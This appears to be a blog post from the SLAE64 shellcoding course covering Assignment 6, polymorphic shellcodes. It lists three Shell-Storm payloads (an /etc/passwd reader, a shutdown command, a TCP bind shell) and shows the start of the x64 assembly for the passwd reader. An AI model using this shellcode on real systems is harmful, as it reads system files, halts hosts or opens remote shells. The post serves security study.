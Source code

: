 ```yaml
---
layout: single
title: SLAE64 Assignment 6 - Polymorphic Shellcodes
date: 2020-6-08
classes: wide
header:
  teaser: /assets/images/slae/SHELLCODING64.png
tags:
    - Shellcoding
    - Linux
    - x64
    - SLAE64
---
```


![](/assets/images/slae/SHELLCODING64.png)

## Introduction
  
The goal of this sixth assignement is to create polymorphic versions of three shellcodes from [Shell Storm](http://shell-storm.org/shellcode/)  
These versions cannot be larger than 150% of the original shellcode and we get bonus points to make them shorter.  

All the source code for this assignment can be found on my [github repository](https://github.com/skr0x/SLAE64/tree/master/Assignment-06-Polymorphic_shellcodes)

## Shellcodes

The payloads I've chosen are :

 - [Reads data from /etc/passwd to /tmp/outfile - 118 bytes by Chris Higgins](http://shell-storm.org/shellcode/files/shellcode-867.php) (Polymorph version -25 bytes)  
 - [shutdown -h now - 65 bytes by Osanda Malith Jayathissa](http://shell-storm.org/shellcode/files/shellcode-877.php) (Polymorph version +3 bytes with not strings)
 - [shell bind TCP random port - 57 bytes by Geyslan G. Bem](http://shell-storm.org/shellcode/files/shellcode-859.php) (Polymorph version -2 bytes with not string)

## Reads data from /etc/passwd to /tmp/outfile

The source code is as follow :  
**Size : 118 bytes**
```nasm
    ; open("/etc/password", O_RDONLY)
        xor rax, rax
        mov al, 2			; open syscall value
        xor rdi, rdi			; RDI set to 0
        mov rbx, 0x647773		; 
        push rbx			; push '\x00dws'		
        mov rbx, 0x7361702f6374652f
        push rbx			; push 'sap/cte/'
        lea rdi, [rsp]			; RDI point to '/etc/password\x00'
        xor rsi, rsi			; RSI O_RDONLY
        syscall				; exec open
```